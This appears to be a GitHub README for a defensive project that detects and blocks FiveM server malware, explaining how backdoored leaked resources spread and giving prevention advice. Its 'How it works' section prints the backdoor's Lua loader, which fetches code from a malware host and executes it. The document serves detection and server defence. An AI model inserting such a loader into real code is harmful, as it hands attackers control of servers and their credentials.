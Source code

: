 - MalScanner.bat aims to check all of your servers resources for Malware.
- NetworkBlock.bat aims to block malware-serving domain names, which are contacted when the infected resource is run.

# About
This is a specific study into a common pay-hack providers methodology.
Credit goes to the specific individuals which devoted a lot of time to discover this growing problem on FiveM, their identities are redacted.

# Analysis
Most FiveM malware is formed around Remote Execution/Administration Tool (RAT). 4 lines of Lua code are written into resources (many of them obfuscate the code) which will download remote code from the external servers. We've found many leaked resources are infected with this type of malware. This repository will talk more about how it works works.

# How it works
It works by individuals releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://malware-panel.io/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the malware user that now has control of your server. Once this code is run it downloads the remote code and runs it on line 4 as a function.

This is the basis on how most malware works. It proceeds to download several more requests and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step. The MalScanner batch file in this repository aims to show you exactly where the infected code is.


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by malware

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the Warden discord. These people are great for pointing you to good, honest resource creators.

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… **DON'T USE LEAKED RESOURCES!**
